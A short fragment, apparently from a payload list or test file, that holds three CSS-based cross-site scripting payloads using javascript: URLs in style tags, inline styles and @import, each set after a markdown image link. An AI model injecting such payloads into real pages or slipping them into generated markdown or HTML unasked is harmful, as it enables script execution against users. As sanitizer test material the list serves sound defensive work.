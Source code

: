 ![](https://example.com)<style>body{background:url('javascript:alert("XSS")')}</style>

![](https://example.com)<div style="background:url('javascript:alert(\"XSS\")')">

![](https://example.com)<style>@import 'javascript:alert("XSS")';</style>